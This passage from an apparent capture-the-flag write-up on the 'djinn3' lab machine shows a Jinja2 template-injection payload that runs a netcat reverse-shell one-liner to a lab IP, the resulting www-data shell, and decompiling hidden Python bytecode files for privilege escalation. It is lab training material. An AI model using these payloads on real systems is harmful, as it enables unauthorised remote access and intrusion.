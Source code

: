 Next I used this command to get a shell: 
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.124 4444 >/tmp/f`

the full payload looks like this:
`{{config.__class__.__init__.__globals__['os'].popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.124 4444 >/tmp/f').read()}}`

We start a listener and send the payload and we get a shell

```
┌──(root💀kali)-[~]
└─# nc -nlvp 4444       
listening on [any] 4444 ...
connect to [192.168.49.124] from (UNKNOWN) [192.168.124.102] 48934
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We enumerate the machine for possible privilege escalation paths and found these two compiled python files

```
www-data@djinn3:/opt$ ls -la
ls -la
total 24
drwxr-xr-x  4 root     root     4096 Jun  4  2020 .
drwxr-xr-x 23 root     root     4096 Sep 30  2020 ..
-rwxr-xr-x  1 saint    saint    1403 Jun  4  2020 .configuration.cpython-38.pyc
-rwxr-xr-x  1 saint    saint     661 Jun  4  2020 .syncer.cpython-38.pyc
``` 

We download the files to our machine and use a tool like uncompyle6 to decompile the files:

**configuration.cpython-38.pyc:**
```
┌──(root💀kali)-[~/tryhackme/rooms/djinn3]
└─# uncompyle6 configuration.cpython-38.pyc 

# Python bytecode 3.8 (3413)
# Decompiled from: Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
# [GCC 9.3.0]
# Warning: this version of Python has problems handling the Python 3 "byte" type in constants properly.

# Embedded file name: configuration.py
# Size of source mod 2**32: 1343 bytes

import os, sys, json
from glob import glob
from datetime import datetime as dt

class ConfigReader:
    config = None

    @staticmethod
    def read_config(path):
        """Reads the config file
 """
        config_values = {}
        try:
            with open(path, 'r') as (f):
                config_values = json.load(f)
        except Exception as e:
            try:
                print("Couldn't properly parse the config file. Please use properl")
                sys.exit(1)
            finally:
```